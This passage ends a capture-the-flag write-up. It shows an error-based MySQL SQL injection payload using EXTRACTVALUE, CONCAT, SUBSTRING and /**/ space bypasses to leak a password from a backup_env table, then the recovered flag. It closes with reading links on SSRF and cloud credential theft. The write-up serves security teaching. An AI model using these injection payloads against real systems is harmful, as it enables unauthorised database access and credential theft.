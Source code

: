     ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\ITSEC{bd8f95175722b36d0068fa366'")
    ```

    We can see the start of a flag in the output, but the response is truncated. To get the remaining part, we use `SUBSTRING()` to extract the rest of the flag:

    ```bash
    test',EXTRACTVALUE(1,/**/CONCAT(0x5c,(SELECT/**/SUBSTRING((SELECT/**/password/**/FROM/**/backup_env),15,25)))));--#
    ```

    This results in:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\5722b36d0068fa36600a552a}'")
    ```

    And now we have the full flag.

Flag: `ITSEC{bd8f95175722b36d0068fa36600a552a}`

## Further Reading
- [Digging for SSRF in Next.js apps](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps)
- [CVE-2024-34351](https://nvd.nist.gov/vuln/detail/CVE-2024-34351)
- [Steal EC2 Metadata Credentials via SSRF](https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/)
- [Exploring Red Team Persistence via AWS Lex Chatbots](https://medium.com/@MorattiSec/the-crow-flies-at-midnight-exploring-red-team-persistence-via-aws-lex-chatbots-b3de1edb7893)
- [SQS and Lambda SQL Injection](https://tari.moe/86515239934d437598717461b7fe3a5c)